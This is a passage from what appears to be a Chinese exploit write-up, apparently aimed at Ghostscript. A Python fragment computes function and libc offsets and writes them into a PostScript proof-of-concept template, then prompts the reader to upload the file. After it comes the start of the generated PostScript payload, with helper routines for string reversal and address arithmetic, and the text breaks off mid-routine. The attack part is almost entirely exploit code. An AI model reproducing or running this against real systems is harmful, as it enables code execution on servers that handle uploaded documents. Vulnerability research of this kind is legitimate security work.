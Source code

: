 ```plain
print("Offset from .init start addr to f_addr_s_std_noseek: 0x{:x} == {:d}".format(f_addr_s_std_noseek_offset, f_addr_s_std_noseek_offset))

with open("final-poc.ps.template", "r") as f:
    final_file = f.read().strip()

final_file = final_file.replace("F_ADDR_S_STD_NOSEEK_OFFSET", str(f_addr_s_std_noseek_offset))
final_file = final_file.replace("LIBC_PLT_OFFSET", str(libc_plt_offset))

with open("final-poc.ps", "w") as f:
    f.write(final_file)

print("Now try to upload the final-poc.ps")
```

[![](assets/1706771701-58d1dff84806f03822dfc0a14107975a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202654-afe41c04-bea1-1.png)

生成 poc 如下

```plain
10000000 setvmthreshold
% (a) (b) -> (ab) 
/concatstrings { exch dup length 
 2 index length add string 
 dup dup 4 2 roll copy length
 4 -1 roll putinterval
} bind def

% (aabb) -> (bbaa)
/reverse{
 /str exch def
 /temp str 0 get def
 /i 0 def
 str length 2 idiv{
  /temp str i get def
  str i str str length i sub 1 sub get put
  str str length i sub 1 sub temp put
  /i i 1 add def
 }repeat
 str 
}def
%offset addr -> addr+offset
/addOffset{
 exch (16#) exch concatstrings
 cvi
 add
 16 16 string cvrs
}def
% addr offset -> addr-offset
/subOffset{
 exch (16#) exch concatstrings
 cvi
```